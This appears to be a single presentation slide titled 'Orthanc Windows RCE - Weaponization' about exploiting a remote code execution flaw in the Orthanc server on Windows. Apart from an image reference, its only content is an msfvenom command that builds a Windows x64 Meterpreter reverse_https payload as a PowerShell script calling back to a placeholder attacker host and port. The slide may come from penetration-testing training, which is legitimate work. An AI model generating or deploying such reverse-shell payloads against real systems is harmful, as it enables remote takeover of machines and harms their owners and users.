

# Orthanc Windows RCE - Weaponization
Create your Windows payload using the following MSFvenom commands:
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=HOST LPORT=PORT EXITFUNC=thread -f psh-net > test.ps1